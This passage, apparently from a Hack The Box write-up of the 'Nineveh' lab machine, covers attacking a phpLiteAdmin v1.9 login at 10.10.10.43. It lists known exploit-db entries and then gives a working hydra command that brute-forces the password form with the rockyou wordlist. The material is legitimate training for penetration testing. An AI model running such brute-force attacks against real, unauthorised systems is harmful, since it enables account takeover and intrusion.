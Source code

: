 Trying some basic login passwords does not work here... The default password is `admin`, which also does not seem to work:

- https://www.192-168-1-1-ip.co/router/phpliteadmin/phpliteadmin/16795/

Try looking for an exploit:

```bash
searchsploit phpliteadmin
```

![ss1](./nineveh/ss1.png)

The following look applicable:

- https://www.exploit-db.com/exploits/24044
  - A PHP code injection, but it requires authentication... 
- https://www.exploit-db.com/exploits/39714
  - Mentions XSS/HTML Injection/CSRF. Not helpful unless and active admin is suspected...

Since basic passwords are not working, try a brute-force. Here is the HTML form after a failed login for PHPLiteAdmin:

```html
<div id='loginBox'>
  <h1>
    <span id='logo'>phpLiteAdmin</span> 
    <span id='version'>v1.9</span>
  </h1>
  <div style='padding:15px; text-align:center;'>
    <span style='color:red;'>Incorrect password.</span><br/><br/>
    <form action='index.php' method='post'>
      Password: <input type='password' name='password'/><br/>
      <input type='checkbox' name='remember' value='yes' checked='checked'/> 
      Remember me<br/><br/>
      <input type='submit' value='Log In' name='login' class='btn'/>
      <input type='hidden' name='proc_login' value='true' />
    </form>
  </div>
</div>
```

Convert this HTML into the following brute-force attempt:

- **NOTE:** The `-l admin` does not matter here since only the password is needed

```bash
# copy over wordlist
cp /usr/share/wordlists/rockyou.txt.gz .
gunzip rockyou.txt.gz
# attempt to brute-force
hydra 10.10.10.43 https-form-post "/db/index.php:login=Log In&proc_login=true&remember=yes&password=^PASS^:Incorrect password" -l admin -P rockyou.txt -vV -f
```
